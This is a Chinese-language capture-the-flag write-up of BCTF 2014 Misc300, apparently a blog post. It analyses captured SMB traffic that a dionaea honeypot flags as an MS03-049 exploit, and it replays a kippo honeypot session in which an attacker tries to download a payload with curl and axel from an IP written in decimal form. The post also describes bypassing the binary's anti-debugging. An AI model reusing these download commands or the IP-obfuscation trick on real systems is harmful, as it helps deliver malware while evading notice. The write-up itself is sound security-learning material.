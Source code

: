 ```yaml
---
layout: post
title: "BCTF Misc300 Write up"
date: 2014-03-14 21:42:29 +0800
comments: true
categories: [bctf, ctf, writeup, packet] 
---
```


感冒在家養病逛fb, 突然看到有ctf可以打
馬上開skype問帳號開打XD


直接找一題沒人解的來玩 


{% img /images/writeup/bctf2014_misc300_problem.png %}
<!-- more -->

下載檔案可以看到疑似封包內容的 in out stream

``` python
stream = [('in', b'\x00\x00\x00T\xffSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x86\xe8\x00\x00\x18n\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00'),
('out', b'\x00\x00\x00U\xffSMBr\x00\x00\x00\x00\x98\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\x86\xe8\x00\x00\x18n\x11\x03\x00\x03\x01\x00\x01\x00\x00\x10\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\xfd\xe3\x00\x80\xb3\x13"\xd7L#\xcf\x01\xc4\xff\x00\x10\x00\x0b\xffe8T~lB\xa4>\x12\xd2\x11\x97\x16D'),
('in', b'\x00\x00\x00\xb1\xffSMBs\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x86\xe8\x00\x00\x18n\x0c\xff\x00\x00\x00\xdf\xff\x02\x00\x01\x00\x00\x00\x00\x00S\x00\x00\x00\x00\x00\xd4\x00\x00\x80v\x00`Q\x06\x06+\x06\x01\x05\x05\x02\xa0G0E\xa0\x0e0\x0c\x06\x0a+\x06\x01\x04\x01\x827\x02\x02\x0a\xa23\x041NTLMSSP\x00\x01\x00\x00\x00\x05\x02\x88\xa2\x01\x00\x01\x00 \x00\x00\x00\x10\x00\x10\x00!\x00\x00\x00.AYplsysIiHy9uvbXWindows 2000 2195\x00Windows 2000 5.0\x00'),
('out', b'\x00\x00\x00\xad\xffSMBs\x16\x00\x00\xc0\x98\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\x86\xe8\x00\x00\x18n\x04\xff\x00\x00\x00\x00\x00S\x00\x82\x00\xa1Q0O\xa0\x03\x0a\x01\x01\xa1\x0c\x06\x0a+\x06\x01\x04\x01\x827\x02\x02\x0a\xa2:\x048NTLMSSP\x00\x02\x00\x00\x00\x00\x00\x00\x000\x00\x00\x00\x05\x02\x88\xa2\xa4\xdf\xe8\x0b\xf5\xc6\x1e:\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x000\x00\x00\x00\x05\x01(\x0a\x00\x00\x00\x0fWindows 5.1\x00Windows 2000 LAN Manager\x00WORKGROUP\x00'),
('in', b'\x00\x00\x01_\xffSMBs\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x86\xe8\x00\x00\x18n\x0c\xff\x00\x00\x00\xdf\xff\x02\x00\x01\x00\x00\x00\x00\x00\x01\x01\x00\x00\x00\x00\x5c\xd0\x00\x80$\x01\xa1\x81\xfe0\x81\xfb\xa2\x81\xf8\x04\x81\xf5NTLMSSP\x00\x03\x00\x00\x00\x18\x00\x18\x00@\x00\x00\x00z\x00z\x00X\x00\x00\x00\x02\x00\x02\x00\xd2\x00\x00\x00\x00\x00\x00\x00\xd4\x00\x00\x00 \x00 \x00\xd4\x00\x00\x00\x00\x00\x00\x00\xf4\x00\x00\x00\x05\x02\x88\xa2L\xc8\x1d\xb4s\xfa\xb4M\xc0\xa5F\xad\xb8\x16\x81\x89\xda\x87\x7f\x903\xd6hd\x0aS%4J\x08\xfa\x82E~\xc8R\xf3SW\xa3\x01\x01\x00\x00\x00\x00\x00\x00\x00m"y\xef\x27\xcf\x01\xda\x87\x7f\x903\xd6hd\x00\x00\x00\x00\x02\x00\x00\x00\x01\x00\x00\x00\x04\x00\x00\x00\x03\x00\x00\x00\x07\x00\x08\x00\x00m"y\xef\x27\xcf\x01\x09\x00&\x00c\x00i\x00f\x00s\x00/\x002\x001\x001\x00.\x006\x005\x00.\x001\x009\x003\x00.\x002\x004\x008\x00\x00\x00\x00\x00\x00\x00\x00\x00.\x00A\x00Y\x00p\x00l\x00s\x00y\x00s\x00I\x00i\x00H\x00y\x009\x00u\x00v\x00b\x00X\x00\x00Windows 2000 2195\x00Windows 2000 5.0\x00'),

```

每行都有SMB很明顯了, 翻翻 SMB header 定義

http://msdn.microsoft.com/en-us/library/ee441774.aspx

Protocol (4 bytes): This field MUST contain the 4-byte literal string '\xFF', 'S', 'M', 'B', with the letters represented by their respective ASCII values in the order shown. In the earliest available SMB documentation, this field is defined as a one byte message type (0xFF) followed by a three byte server type identifier.


前面好像還包一層, 但不重要, 重要的是沒有前兩層的header  wireshark打不開

剩下兩條路走.

1. 自己parse smb protocol 或找現成的parser

2. 包前兩層讓wireshark看得懂


1.找不到現成的parser, 自己parse有點懶

後來看到wireshark 有個tool是 text2pcap可以幫忙補上L2, L3的header

但是在這邊卡了一段時間,因text2pcap一直沒有如預期的把內容塞進去


man裡面明明說

```
Here is a sample dump that
       text2pcap can recognize:

           000000 00 e0 1e a7 05 6f 00 10 ........
           000008 5a a0 b9 12 08 00 46 00 ........

```

結果他不認得,只會噴1 potential packet wrote 0 packet.

```console
Input from: demo
Output to: demo.pcap
Output format: PCAP
Generate dummy Ethernet header: Protocol: 0x800
Generate dummy IP header: Protocol: 6
Generate dummy TCP header: Source port: 139. Dest port: 139
Read 1 potential packet, wrote 0 packets (24 bytes).
```

最後發現他其實只能吃 #od -Ax -tx1 -v - 噴出來的格式
```
#od -Ax -tx1 -v - 
0000000    30  30  30  30  30  30  30  3a  20  35  63  37  38  20  33  34
0000010    33  33  20  35  63  37  38  20  33  32  33  31  20  35  63  37
0000020    38  20  33  30  33  31  20  35  63  37  38  20  33  30  33  30
0000030    20  20  5c  78  34  33  5c  78  32  31  5c  78  30  31  5c  78
```

確定能偽造header後 用以下command把parse過的檔案轉成pcap

```
od -Ax -tx1 -v input | text2pcap -T 139,139 - packet.pcap 
```

{% img /images/writeup/bctf2014_misc300_pcap.PNG %}

看到\BROWSER 又有叫 NetrAddAlternateComputerName 

google一下就會發現是 MS03-049


其實在這邊我只要去把那段shellcode解出來應該就差不多了

但找不到tool解 當時也沒想到直接在windows寫程式run他...已經不會在windows上寫程式了XD


回頭看提示發現跟honeypot有關

再看看檔名 **dionaea** ..What the fuck  

#dionaea 是一個honeypot project#


安裝太麻煩了,直接抓honeydrive下來,再參考這篇

http://blog.moep.name/index.php?/archives/2-Detecting-malware-with-dionaea.html

replay就可以重現當時的流量,dionaea還幫你分析好是MS03-049


```python
[08032014 18:18:33] SMB dionaea/smb/smb.py:407-info: FragLen 4024 len(self.buf) 1599
[08032014 18:18:34] SMB dionaea/smb/smb.py:405-info: got header
[08032014 18:18:34] SMB dionaea/smb/smb.py:407-info: FragLen 4024 len(self.buf) 2167
[08032014 18:18:35] SMB dionaea/smb/smb.py:405-info: got header
[08032014 18:18:35] SMB dionaea/smb/smb.py:407-info: FragLen 4024 len(self.buf) 3107
[08032014 18:18:36] SMB dionaea/smb/smb.py:405-info: got header
[08032014 18:18:36] SMB dionaea/smb/smb.py:407-info: FragLen 4024 len(self.buf) 3597
[08032014 18:18:37] SMB dionaea/smb/smb.py:405-info: got header
[08032014 18:18:37] SMB dionaea/smb/smb.py:407-info: FragLen 4024 len(self.buf) 3678
[08032014 18:18:38] SMB dionaea/smb/smb.py:405-info: got header
[08032014 18:18:38] SMB dionaea/smb/smb.py:407-info: FragLen 4024 len(self.buf) 4024
[08032014 18:18:38] rpcservices dionaea/smb/rpcservices.py:76-info: Calling WKSSVC NetAddAlternateComputerName (1b) maybe MS03-39 exploit?
[08032014 18:18:39] SMB dionaea/smb/smb.py:405-info: got header
[08032014 18:18:39] SMB dionaea/smb/smb.py:407-info: FragLen 2124 len(self.buf) 722

```


但大概是太久沒人解出來,主辦單位直接把難度降低 放出kippo.ttylog

honeydrive上也有kippo  

用他的playlog.py replay 可以看到以下結果
```console
nas3:/# cd tmp/
nas3:/tmp# ls
nas3:/tmp# touch 1.sh
nas3:/tmp# ls
1.sh 
nas3:/tmp# axel 2792326331/fool
bash: axel: command not found
nas3:/tmp# curl 2792326331/fool
bash: curl: command not found
nas3:/tmp# uname -r
Linux
nas3:/tmp# rm 1.sh
nas3:/tmp# exit
```

這裡有個有趣的地方, 2792326331/fool 

大家都知道網址前面是 hostname 或是 IP

但IP還可以用八進位或是16進位表示

詳見 : http://drops.wooyun.org/papers/146

所以 2792326331/fool  其實是個網址

抓下來是隻PE, 直接執行沒有看到寫registry或是寫檔的行為

Reverse過程沒什麼特別的 就沒有截圖了..

從IDA pro看有一段像是要寫registry, 

用ollydbg打開 把anti-debugging填成0x90 

就會發現該程式還會檢查參數還是什麼的,總之跳過之後

他就會把key寫進registry裡面




*可惜這次重感冒+隔天要上班, 臨時打也找不到人 只有學弟陪我玩QQ*









